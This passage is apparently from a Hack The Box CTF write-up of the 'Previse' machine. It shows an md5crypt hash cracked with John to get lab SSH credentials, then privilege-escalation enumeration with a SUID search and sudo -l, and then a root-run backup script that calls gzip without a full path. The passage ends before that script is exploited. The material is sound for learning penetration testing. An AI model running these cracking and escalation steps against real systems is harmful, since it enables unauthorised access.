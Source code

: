 After some researching i found out that `$1$` refers to the `md5crypt` algorithm. We can crack this hash using John. 

```bash
john -format=md5crypt-long -w=/usr/share/dict/rockyou.txt creds
```

Found credentials are: `m4lwhere:ilovecody112235!`

After SSH into the machine we get the user flag!

### 4.) Getting Root

The first i do when i need to elevate privileges is finding SUID binaries.

```bash
m4lwhere@previse:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
```

Nothing out of the ordinary AFAIK. 

The next thing i do is run `sudo -l` to see what available commands i can run as root. If that fails too then the next option is [PEASS](https://github.com/carlospolop/PEASS-ng). Although judging by the output of the aforementioned command we wont need it: 

```bash
m4lwhere@previse:/opt/scripts$ sudo -l 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

It turns out that we can run the `access_backup.sh` script as root. Let's examine it. 

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
